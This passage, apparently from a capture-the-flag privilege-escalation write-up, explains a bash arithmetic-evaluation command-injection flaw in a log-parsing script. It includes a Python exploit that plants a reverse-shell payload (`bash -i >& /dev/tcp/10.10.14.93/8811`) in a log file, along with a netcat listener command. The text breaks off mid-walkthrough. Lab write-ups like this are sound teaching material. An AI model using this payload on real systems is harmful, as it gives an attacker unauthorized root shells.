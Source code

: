 ```bash
LOG_FILE="$1"
# Later used in: grep "LoginSuccessLogger" "$LOG_FILE"
```

#### 2\. Arithmetic Expression Injection

The critical vulnerability is in this line:

```bash
if [[ "$existing_code" -eq "$code" ]]; then
```

When `$code` contains command substitution like `$(command)`, bash executes it during arithmetic evaluation.

### Exploitation Strategy

The application writes logs to `/var/www/web/cloud-gateway/log/application.log`, and miranda-wise has write access to this directory.

#### Exploitation Script

```python
#!/usr/bin/env python3
import os

# Change to target directory
os.chdir("/var/www/web/cloud-gateway/log")

# Remove existing log file
try:
    os.remove("application.log")
except PermissionError:
    os.chmod("application.log", 0o666)
    os.remove("application.log")

# Create malicious log entry with command injection payload
payload = "HTTP Status: x[$(bash -c 'bash -i >& /dev/tcp/10.10.14.93/8811 0>&1')]\n"
with open("application.log", "w") as f:
    f.write(payload)

print("Payload injected. Waiting for root shell...")
```

### Getting Root Shell

1. **Start netcat listener:**
    

```bash
nc -lvnp 8811
```

2. **Execute the exploitation script:**
    
